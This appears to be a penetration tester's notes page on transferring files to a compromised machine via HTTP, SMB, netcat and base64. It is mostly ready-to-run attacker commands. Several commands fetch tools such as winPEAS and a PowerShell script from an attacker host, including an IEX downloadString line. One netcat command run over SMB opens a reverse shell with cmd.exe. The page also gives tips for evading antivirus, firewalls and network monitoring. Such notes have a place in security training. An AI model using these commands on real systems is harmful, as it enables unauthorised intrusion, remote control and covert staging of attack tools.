 # File Transfers

File transfers are essential for an attacker. When we compromise a system, there are binaries and scripts that would make the further enumeration for privilege escalation a lot more useful. We can only do file transfers as long as we can execute commands on the system (via web shell or using a shell)

There are a few methods of transferring files, and the usage of each would depend on what is allowed on the system (the stuff the firewall doesn't block).

When downloading files, make sure that we output the file in a **directory that we can write to**.\
Possible directories include:

{% code title="For Linux" %}
```bash
/tmp
/dev/shm
/home/<user>
/var/www/html/<whatever>
# just check which directories we can write to using ls -la
```
{% endcode %}

```bash
C:\user\<compromised_user>\
C:\windows\temp\
C:\windows\system32\spool\drivers\color
C:\windows\tasks
# directories that are writeable to by all users
```

## HTTP

One of the easiest ways to transfer files easily. This would involve setting up a HTTP server on our attacking machine, and this can be done easily with a Python3 module.

```python
python3 -m http.server <port>
python2 -m SimpleHTTPServer <port>
```

Afterwards, depending on the OS, we can download the files over.

{% code title="Linux to Linux" %}
```bash
wget http://10.10.10.10/linpeas.sh -o linpeas.sh
# -o is optional for Linux systems
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
certutil.exe -urlcache -split -f "http://10.10.10.10./winPEAS.exe" "C:\users\vulnerable\documents\winpeas.exe"

# with powershell
powershell
wget "http://10.10.10.10/binary" -OutFile "C:\users\user\documents\binary.exe"

# or
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/9002.ps1', 'C:\users\user\documents\9002.ps1')

# curl
curl http://10.10.10.14/file -o C:\users\user\desktop\file
```
{% endcode %}

These are just some of the commands that we can use.

However, take note for Windows machines that even though we can run these, sometimes, there are firewalls or other Anti-Viruses that block the usage of these, and we cannot transfer files that easily. Sometimes, the anti-viruses may block certain ports from receiving connections.

To circumvent port blocking, I set up the Python HTTP server with commonly unblocked ports that are intended for web traffic, **such as port 80 and port 443,** which are for HTTP and HTTPS respectively.

However, there are times when downloading files to the machine via HTTP are blocked entirely. As such, rely on other methods to make it work.

## Server Message Block

Server Message Block (SMB) can run on either Windows or Linux, and we can transfer files using it if port 139 and 445 are open. I mainly use this for downloading to Windows machines.

First, set up a smbserver on our Linux machine, which we can do with smbserver.py from the **impacket suite**.

{% code overflow="wrap" %}
```bash
smbserver.py <name of share> <directory to make a share> -smb2support
# normally, i use 'share' as the name and '.' to signify the current working directory

smbserver.py -username guest -password guest share . -smb2support
# sometimes, windows defender does not allow smb connections that do not have credentials.
```
{% endcode %}

{% embed url="https://github.com/SecureAuthCorp/impacket" %}

SMB has the cool thing whereby we can download and run the files **without making a copy on the target machine**. This would mean that it is executed more stealthily without leaving any trace.

To download/execute files:

```powershell
#download
copy \\10.10.10.10\share\winPEAS.exe winpeas.exe

#use
\\10.10.10.10.\share\nc.exe 10.10.10.10 1234 -e cmd.exe
```

However, take note that this wouldn't work if SMB is not running or is completely blocked from making external connections.

## Netcat

Netcat is a computer network utility for reading from and writing to network connections using TCP or UDP. This exists as a binary in Linux that can be used via the `nc` command, or as a .exe file for windows.

{% embed url="https://github.com/int0x33/nc.exe/" %}

NC can be used to transfer files over ports should we be unable to use SMB or HTTP. **However, for Windows machines, we would need to get the nc.exe binary onto the target machine before we use it.**

For Linux machines, we just need to make sure that nc is installed. The&#x20;

```bash
# receiving end
nc(.exe) -l -p 1234 > out.file
# sending end
nc(.exe) -w 3 10.10.10.10. 1234 < out.file
```

Super useful when we cannot use wget or other methods.&#x20;

## Base64

I rely on this method the least because of the fact that sometimes, files aren't transferred properly using this. This method does not require any form of connection, and only requires base64.

> Base64 encoding schemes are commonly used when there is a need to encode binary data that needs to be stored and transffered over media that is designed to deal with ASCII.
>
> _Taken from Mozilla_

What this means is that every file, whether it's a .jpg, .gif, .exe, .elf or whatever, can be translated to base64. Subsequently, we can decode the base64 to get the file back.

This method just requires some commands to be used.

```bash
# on attacking machine
base64 <file> > base64file.txt
# copy and paste the base64 text to victim machine
base64 -d base64file.txt > binary
```

<pre class="language-powershell"><code class="lang-powershell"><strong># for powershell 
</strong><strong>[convert]::ToBase64String((Get-Content -path "your_file_path" -Encoding byte))
</strong></code></pre>

Base64 can come in handy when we are transferring files. However take note that sometimes this method would produce anomalous results that don't work. This method is ideal when we cannot make any connections (which is unlikely) or if we want to stay hidden from network monitors.

##
